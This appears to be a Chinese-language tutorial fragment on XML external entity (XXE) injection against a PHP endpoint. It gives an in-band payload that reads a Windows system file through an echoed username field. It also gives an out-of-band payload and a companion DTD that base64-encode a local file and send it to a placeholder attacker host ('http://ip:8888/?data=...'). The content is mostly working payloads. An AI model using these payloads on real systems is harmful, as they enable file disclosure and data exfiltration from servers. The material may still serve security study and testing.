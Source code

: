 ```php
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}
```

`username`为回显位

payload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
    <!ENTITY xxe SYSTEM "file:///c:/windows/system.ini"> 
]>                                                         
```

```xml
<username>&xxe;</username>
```





### 无回显

#### 外带

php://filter读取对方服务器文件内容→引入外部实体（攻击服务器上的）→触发外部实体中的写入代码，将读取到的文件内容赋值给指定参数→接收参数，在攻击服务器监听或者查看日志，从而获取到对方服务器文件内容

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///e:/test.txt">
    <!ENTITY % dtd SYSTEM "http://ip:8000/test.dtd">
    %dtd;
    %send;
]>
```

```xml-dtd
<!--test.dtd-->
<!ENTITY % payload
	"<!ENTITY &#x25; send SYSTEM 'http://ip:8888/?data=%file;'>"
>
%payload;
```

> 注意：test.dtd的内容，内部的%号要进行实体编码成&#x25（因为实体的值中不能有 %, 所以将其转成html实体编码 `%`）

